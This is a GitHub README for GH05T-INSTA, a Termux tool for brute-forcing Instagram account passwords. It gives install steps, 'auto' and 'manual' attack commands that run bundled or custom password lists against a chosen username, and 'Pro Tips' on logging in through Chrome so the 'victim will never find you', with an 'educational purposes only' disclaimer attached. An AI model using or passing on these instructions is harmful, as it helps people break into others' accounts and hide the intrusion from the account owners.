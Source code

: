 <b>We strive to provide the best service for</b>
<img src="https://raw.githubusercontent.com/GH05THUNTER5/DJD93J4H8TN/main/IMG_20220826_141617.jpg?token=GHSAT0AAAAAABYCBQZN4W3SDQ7WIVRYAF7IYYIR2KQ" alt="bruteforce attack GH05T INSTA" title="GH05T INSTA">
<i>TERMUX USERS  { No Root }</i>

### Why GH05T-INSTA

<i>* Multiple attacks can be performed simultaneously</i>

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

#

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

#

`This is our teamwork, so please support our team`

`Never copy this code it's our hard work`

`Never modify the GH05T-INSTA tool`

#### Verwenden Sie dieses Tool nicht für schlechte Dinge

👉 <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/OWN-Tool/README.md"> Create FPP Tool (Copyright Free)</a>

<img src="https://raw.githubusercontent.com/GH05THUNTER5/DJD93J4H8TN/main/IMG_20220826_142406.jpg?token=GHSAT0AAAAAABYCBQZMJ45COOND5EXBHEXUYYIRZHA" alt="gh05t advanced ">

<b>{      Brute Force Attack       }</b>

## Installation 3.01

$ `pkg install git`

$ `pkg install python`

$ `pkg install python2`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `python install.py`

$ `cd $HOME`

$ `rm -rf GH05T-INSTA`

<b>After</b>

$ `gh05t`


<img src="https://raw.githubusercontent.com/GH05THUNTER5/DJD93J4H8TN/main/IMG_20220826_142041.jpg?token=GHSAT0AAAAAABYCBQZN6L7S3QTGT5VDPXUSYYIR27A" alt="GH05T INSTA" title="GH05T INSTA">

<em>You can use it in two ways</em><br>

01 ) just type : gh05t 

02 ) Command Based ⬇️

* We think the command line is more useful

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05THUNTER5/DJD93J4H8TN/main/IMG_20220826_142626.jpg?token=GHSAT0AAAAAABYCBQZM2NPIGHBIIQTISE7SYYIR3XA)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location of your password list

##### Usage example 

```
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developer

<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

#### Password List

<img src="https://raw.githubusercontent.com/GH05THUNTER5/DJD93J4H8TN/main/IMG_20220826_142626.jpg?token=GHSAT0AAAAAABYCBQZM2NPIGHBIIQTISE7SYYIR3XA" alt="GH05T INSTA PASSWORD LIST" >

<i>WORKING DEMO <a href="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t-attack.jpg">GH05T ATTACK</a></i>

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`
